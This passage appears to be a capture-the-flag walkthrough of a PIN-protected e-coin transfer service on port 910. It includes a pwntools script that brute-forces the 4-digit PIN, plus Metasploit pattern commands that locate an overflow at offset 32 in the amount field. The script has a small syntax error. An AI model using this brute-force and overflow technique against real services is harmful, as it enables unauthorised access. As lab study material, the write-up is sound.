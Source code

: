 It asks for a 4 digit PIN and if it is wrong, closes the connection.
As there are only 10000 combinations for 4-digit PINs, it should be fast to Brute-Force it with a Python script:
```python
from pwn import *
for i in range(0,9999):
    pin = str(i)
    code = pin.zfill(4)
    r = remote("localhost", 910)
    r.recvuntil("[$] ")
    r.sendline(code)
    response = r.recvline()
    r.close()
    if b:"Access denied" not in response:
        print(code)
        break
```

It stops at the PIN number _0021_ and asks for the amount of e-coins to transfer and executes _C:\Users\admin\Documents\transfer.exe_:
```
Please enter your super secret 4 digit PIN code to login:
[$] 0021
[$] PIN is correct, access granted!
--------------------------------------------------------------
Please enter the amount of e-coins you would like to transfer:
[$] 1
[$] Transfering $1 using our e-coin transfer application.
[$] Executing e-coin transfer tool: C:\Users\admin\Documents\transfer.exe

[$] Transaction in progress, you can safely disconnect...
```

We send a pattern with 100 characters to see, if there is some kind of overflow:
```
/usr/bin/msf-pattern_create -l 100
```
```
Please enter the amount of e-coins you would like to transfer:
[$] Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
[$] Transfering $Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A using our e-coin transfer application.
[$] Executing e-coin transfer tool: 0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Offset of the string:
```
/usr/bin/msf-pattern_offset -l 100 -q 0Ab1
```
```
Exact match at offset 32
```
